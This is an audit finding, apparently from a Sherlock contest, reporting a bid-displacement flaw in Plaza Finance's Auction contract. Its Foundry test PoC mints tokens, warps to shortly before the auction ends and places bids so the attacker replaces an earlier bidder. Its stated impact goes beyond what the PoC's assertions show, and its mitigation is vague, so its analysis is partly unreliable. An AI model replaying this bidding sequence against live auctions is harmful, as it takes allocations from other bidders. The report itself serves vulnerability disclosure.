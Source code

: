 Faint Violet Snake

High

# The attacker can get reserve tokens just before the auction ends.

### Summary
Say 
maxBids = 3
bob1 bids (50,  slot), bob2 bids (30, slot), bob3 bids(20  slot)
just before the auction ends, if the attacker bids(100,2*slot), bob1 is removed and the attacker bids as (50,slot) same as bob1.
And the attacker gets the high amount of reserve token even if  bids just before end.
### Root Cause
bid is removed, and the attacker's bid is added.
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L204
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L161
### Internal Pre-conditions


### External Pre-conditions

### Attack Path
Just before the auction ends, the attacker has to bid.

### Impact
The attacker can secure the highest amount of reserve tokens in the auction by bidding just before it ends.
### PoC

```solidity
  function testAttackerManipulatesAuction() public {
    uint256 slot = 5000 / 3; // maxBids is 3, totalBuyCouponAmount is 5000.

    // Bob1 places the first bid.
    vm.startPrank(bob1);
    usdc.mint(bob1, slot);
    usdc.approve(address(auction), slot);
    auction.bid(50, slot); // Bid: 50 reserve, slot coupons
    vm.stopPrank();

    // Bob2 places the second bid.
    vm.startPrank(bob2);
    usdc.mint(bob2, slot);
    usdc.approve(address(auction), slot);
    auction.bid(30, slot); // Bid: 30 reserve, slot coupons
    vm.stopPrank();

    // Bob3 places the third bid.
    vm.startPrank(bob3);
    usdc.mint(bob3, slot);
    usdc.approve(address(auction), slot);
    auction.bid(20, slot); // Bid: 20 reserve, slot coupons
    vm.stopPrank();

    // Just before the auction ends, the attacker places a large bid to manipulate the list.
    vm.warp(auction.endTime() - 1 hours);
    vm.startPrank(attacker);
    usdc.mint(attacker, 2 * slot);
    usdc.approve(address(auction), 2 * slot);
    auction.bid(100, 2 * slot); // Bid: 100 reserve, 2 * slot coupons
    vm.stopPrank();

    // At this point, Bob1's bid (50, slot) is removed due to prioritization logic.

    // The attacker places another bid with the same ratio as Bob1.
    vm.startPrank(attacker);
    usdc.mint(attacker, slot);
    usdc.approve(address(auction), slot);
    auction.bid(50, slot); // Bid: 50 reserve, slot coupons (same as Bob1)
    vm.stopPrank();

    // The auction ends.
    vm.warp(auction.endTime());
    vm.prank(pool);
    auction.endAuction();

    // Verify the attacker's bid replaced Bob1 and achieved the same terms.
    uint256 lastBidIndex = auction.lastBidIndex();
    (address bidAddress, uint256 reserveAmount, uint256 couponAmount,,,) = auction.bids(lastBidIndex);

    assertEq(bidAddress, address(attacker)); // The attacker successfully replaced Bob1.
    assertEq(reserveAmount, 50);             // Reserve amount is the same as Bob1's.
    assertEq(couponAmount, slot);            // Coupon amount is the same as Bob1's.

    vm.stopPrank();
}
```
### Mitigation

There has to be a validation.